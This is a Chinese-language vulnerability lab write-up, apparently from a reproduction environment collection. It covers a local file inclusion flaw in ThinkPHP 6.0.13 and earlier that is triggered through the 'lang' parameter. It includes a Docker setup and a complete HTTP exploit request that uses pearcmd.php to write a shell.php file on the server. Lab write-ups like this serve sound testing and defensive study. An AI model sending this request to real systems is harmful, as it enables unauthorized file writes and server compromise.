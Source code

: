 # ThinkPHP 多语言本地文件包含漏洞

ThinkPHP是一个在中国使用较多的PHP框架。在其6.0.13版本及以前，存在一处本地文件包含漏洞。当多语言特性被开启时，攻击者可以使用`lang`参数来包含任意PHP文件。

虽然只能包含本地PHP文件，但在开启了`register_argc_argv`且安装了pcel/pear的环境下，可以包含`/usr/local/lib/php/pearcmd.php`并写入任意文件。

参考链接：

- <https://tttang.com/archive/1865/>
- <https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp> （本文介绍了`pearcmd.php`利用技巧的原理）

## 漏洞环境

执行如下命令启动一个使用ThinkPHP 6.0.12版本开发的Web应用：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到ThinkPHP默认的欢迎页面。

## 漏洞利用

首先，ThinkPHP多语言特性不是默认开启的，所以我们可以尝试包含`public/index.php`文件来确认文件包含漏洞是否存在：

![](1.png)

如果漏洞存在，则服务器会出错，返回500页面。

文件包含漏洞存在的情况下还需要服务器满足下面两个条件才能利用：

1. PHP环境开启了`register_argc_argv`
2. PHP环境安装了pcel/pear

Docker默认的PHP环境恰好满足上述条件，所以我们可以直接使用下面这个数据包来在写`shell.php`文件：

```
GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

如果服务器返回pearcmd的命令行执行结果，说明漏洞利用成功：

![](2.png)

此时访问`http://your-ip:8080/shell.php`即可发现已经成功写入文件：

![](3.png)
